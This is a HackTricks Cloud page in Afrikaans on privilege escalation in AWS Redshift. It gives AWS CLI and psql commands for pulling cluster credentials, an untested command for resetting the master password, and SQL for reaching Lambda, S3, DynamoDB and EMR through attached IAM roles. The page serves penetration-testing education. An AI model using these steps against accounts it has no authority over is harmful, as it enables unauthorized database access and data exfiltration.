 # AWS - Redshift Privesc

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Redshift

Vir meer inligting oor RDS kyk:

{% content-ref url="../aws-services/aws-redshift-enum.md" %}
[aws-redshift-enum.md](../aws-services/aws-redshift-enum.md)
{% endcontent-ref %}

### `redshift:DescribeClusters`, `redshift:GetClusterCredentials`

Met hierdie toestemmings kan jy **inligting van al die klusters** verkry (insluitend naam en kluster gebruikersnaam) en **kredensiale** kry om toegang te verkry:
```bash
# Get creds
aws redshift get-cluster-credentials --db-user postgres --cluster-identifier redshift-cluster-1
# Connect, even if the password is a base64 string, that is the password
psql -h redshift-cluster-1.asdjuezc439a.us-east-1.redshift.amazonaws.com -U "IAM:<username>" -d template1 -p 5439
```
**Potensiële Impak:** Vind sensitiewe inligting binne die databasisse.

### `redshift:DescribeClusters`, `redshift:GetClusterCredentialsWithIAM`

Met hierdie toestemmings kan jy **inligting van al die klusters** verkry en **kredensiale** kry om toegang te verkry.\
Let daarop dat die postgres gebruiker die **toestemmings sal hê wat die IAM identiteit** wat gebruik is om die kredensiale te verkry, het.
```bash
# Get creds
aws redshift get-cluster-credentials-with-iam --cluster-identifier redshift-cluster-1
# Connect, even if the password is a base64 string, that is the password
psql -h redshift-cluster-1.asdjuezc439a.us-east-1.redshift.amazonaws.com -U "IAMR:AWSReservedSSO_AdministratorAccess_4601154638985c45" -d template1 -p 5439
```
**Potensiële Impak:** Vind sensitiewe inligting binne die databasisse.

### `redshift:DescribeClusters`, `redshift:ModifyCluster?`

Dit is moontlik om die **hoofwagwoord** van die interne postgres (redshit) gebruiker vanaf aws cli te **wysig** (Ek dink dit is die regte toestemmings wat jy nodig het, maar ek het dit nog nie getoets nie):
```
aws redshift modify-cluster –cluster-identifier <identifier-for-the cluster> –master-user-password ‘master-password’;
```
**Potensiële Impak:** Vind sensitiewe inligting binne die databasisse.

## Toegang tot Eksterne Dienste

{% hint style="warning" %}
Om toegang te verkry tot al die volgende hulpbronne, sal jy **die rol wat gebruik moet word** moet **specifiseer**. 'n Redshift-kluster **kan 'n lys van AWS-rolle toegeken hê** wat jy kan gebruik **as jy die ARN ken** of jy kan net "**default**" stel om die standaard een wat toegeken is, te gebruik.

Boonop, soos [**hier verduidelik**](https://docs.aws.amazon.com/redshift/latest/mgmt/authorizing-redshift-service.html), laat Redshift ook toe om rolle te concat (solank die eerste een die tweede een kan aanvaar) om verdere toegang te verkry, maar net **deur** hulle met 'n **komma** te **skei**: `iam_role 'arn:aws:iam::123456789012:role/RoleA,arn:aws:iam::210987654321:role/RoleB';`
{% endhint %}

### Lambdas

Soos verduidelik in [https://docs.aws.amazon.com/redshift/latest/dg/r\_CREATE\_EXTERNAL\_FUNCTION.html](https://docs.aws.amazon.com/redshift/latest/dg/r\_CREATE\_EXTERNAL\_FUNCTION.html), is dit moontlik om **'n lambda-funksie vanaf redshift aan te roep** met iets soos:
```sql
CREATE EXTERNAL FUNCTION exfunc_sum2(INT,INT)
RETURNS INT
STABLE
LAMBDA 'lambda_function'
IAM_ROLE default;
```
### S3

Soos verduidelik in [https://docs.aws.amazon.com/redshift/latest/dg/tutorial-loading-run-copy.html](https://docs.aws.amazon.com/redshift/latest/dg/tutorial-loading-run-copy.html), is dit moontlik om **te lees en te skryf in S3-buckets**:
```sql
# Read
copy table from 's3://<your-bucket-name>/load/key_prefix'
credentials 'aws_iam_role=arn:aws:iam::<aws-account-id>:role/<role-name>'
region '<region>'
options;

# Write
unload ('select * from venue')
to 's3://mybucket/tickit/unload/venue_'
iam_role default;
```
### Dynamo

Soos verduidelik in [https://docs.aws.amazon.com/redshift/latest/dg/t\_Loading-data-from-dynamodb.html](https://docs.aws.amazon.com/redshift/latest/dg/t\_Loading-data-from-dynamodb.html), is dit moontlik om **data van dynamodb te verkry**:
```sql
copy favoritemovies
from 'dynamodb://ProductCatalog'
iam_role 'arn:aws:iam::0123456789012:role/MyRedshiftRole';
```
{% hint style="warning" %}
Die Amazon DynamoDB tabel wat die data verskaf, moet in dieselfde AWS Region as jou kluster geskep word, tensy jy die [REGION](https://docs.aws.amazon.com/redshift/latest/dg/copy-parameters-data-source-s3.html#copy-region) opsie gebruik om die AWS Region aan te dui waar die Amazon DynamoDB tabel geleë is.
{% endhint %}

### EMR

Kontroleer [https://docs.aws.amazon.com/redshift/latest/dg/loading-data-from-emr.html](https://docs.aws.amazon.com/redshift/latest/dg/loading-data-from-emr.html)

## References

* [https://gist.github.com/kmcquade/33860a617e651104d243c324ddf7992a](https://gist.github.com/kmcquade/33860a617e651104d243c324ddf7992a)

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kontroleer die [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
